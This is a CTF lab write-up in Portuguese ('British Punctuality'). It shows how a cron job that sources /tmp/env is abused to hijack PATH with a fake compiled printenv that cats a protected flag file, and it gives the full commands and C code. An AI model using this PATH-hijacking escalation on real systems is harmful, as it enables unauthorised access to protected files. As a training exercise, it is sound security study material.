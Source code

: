 # British Punctuality

Verificamos que não temos permissão para abrir diretamente o ficheiro `flags/flag.txt`, mas o utilizador "flag_reader" tem:

![CTF Opcional 1 a](../img/ctfopcional1a.png)

No diretório "/tmp" existe um ficheiro "last_log.txt" que é atualizado todos os minutos, com permissões de flag_reader, através do **cronscript** (/etc/cron.d/mycronscript) seguinte:

```note
* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```

Inicialmente, o conteúdo de `last_log ` é o seguinte:

```note
SHELL=/bin/sh
PWD=/home/flag_reader
LOGNAME=flag_reader
HOME=/home/flag_reader
SHLVL=2
PATH=/bin:/usr/bin:/usr/local/bin
_=/bin/printenv
I'm going to check if the flag exists!
File exists!!
TODO - Implement this in the near future!
```

Quando o **cronscript** é executado, este por sua vez executa `/home/flag_reader/my_script.sh`, e o output é guardado em `/tmp/last_log`. O conteúdo de `my_script.sh` é o seguinte:

```bash
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. Posteriormente, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós), colocando o seguinte texto no ficheiro `/tmp/env`:

```note
export PATH=/tmp/myenv/
```

Criando o diretório `/tmp/myenv/`, podemos criar dentro dele um binário printenv que execute um código controlado por nós:

```bash
$ mkdir myenv
$ cd myenv
$ touch printenv.c
```

Este ficheiro c terá o código que mostra a flag:

```c
#include <stdlib.h>
#include <string.h>
int main() {
    char command[25]="cat ../../flags/flag.txt"; 
    system(command); 
    return 0;
}
```

Este código é colocado em printenv.c linha a linha da seguinte forma:

```bash
$ echo "linha" >> printenv.c
```

No final compilamos o código:

```bash
$ gcc -Wall -o printenv printenv.c
```

No entanto, como alteramos a variável de ambiente PATH, o programa não vai encontrar o binário `cat` no novo diretório, pelo que temos de o copiar para lá: 

```
$ cp /bin/cat /tmp/myenv
```

Finalmente, esperamos uma nova execução de `my_script.sh` através do **cronscript** e verificou-se que o `last_log` continha a flag tal como previsto:

![CTF Opcional 1 b](../img/ctfopcional1b.png)
